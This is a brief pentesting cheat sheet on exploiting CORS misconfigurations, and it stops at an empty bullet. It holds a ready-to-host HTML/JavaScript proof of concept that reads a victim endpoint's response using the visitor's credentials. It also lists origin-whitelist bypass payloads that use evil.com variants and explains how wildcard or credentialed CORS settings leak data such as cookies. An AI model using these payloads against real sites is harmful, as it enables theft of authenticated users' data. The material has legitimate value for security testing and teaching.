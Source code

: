 ## Introduction 

CORS short of Cross-Origin Resource Sharing is a policy that allows a site to share relevant information to other domains. Misconfiguration might leads to leakage of data to attackers.

## Payloads example

Place following code in the site you control:

```html
<html>
     <body>
         <h2>CORS PoC</h2>
         <div id="demo">
             <button type="button" onclick="cors()">Exploit</button>
         </div>
         <script>
             function cors() {
             var xhr = new XMLHttpRequest();
             xhr.onreadystatechange = function() {
                 if (this.readyState == 4 && this.status == 200) {
                 document.getElementById("demo").innerHTML = alert(this.responseText);
                 }
             };
              xhr.open("GET",
                       "https://victim.example.com/endpoint", true);
             xhr.withCredentials = true;
             xhr.send();
             }
         </script>
     </body>
 </html>
```

## Some misconfiguration example

- If you find that ```Access-Control-Allow-Origin: *``` is shown in response, it means that the site allows all domains to access information under this domain;

- Sometimes, if ```Access-Control-Allow-Credentials:true```, it means all response can be shown to request within ```Access-Control-Allow-Origin```. Information includes cookies etc. Thus, in this case, even ```Access-Control-Allow-Origin``` set to company's subdomain, if XSS was founded in other subdomain, it also can lead to data leakage; 

- Sometimes, even if ```Access-Control-Allow-Origin``` was set, placing origin with some domain containing white list domain wordings can also bypass the subject check. (e.g. whitelist: request.com, bypass: attackrequest.com or request.com.attack.com). Some other examples of bypass:

```
*.ubnt.com!.evil.com 
*.ubnt.com".evil.com 
*.ubnt.com$.evil.com 
*.ubnt.com%0b.evil.com 
*.ubnt.com%60.evil.com 
*.ubnt.com&.evil.com 
*.ubnt.com'.evil.com 
*.ubnt.com(.evil.com 
*.ubnt.com).evil.com 
*.ubnt.com*.evil.com 
*.ubnt.com,.evil.com 
*.ubnt.com;.evil.com 
*.ubnt.com=.evil.com 
*.ubnt.com^.evil.com 
*.ubnt.com`.evil.com 
*.ubnt.com{.evil.com 
*.ubnt.com|.evil.com 
*.ubnt.com}.evil.com 
*.ubnt.com~.evil.com
```

- 

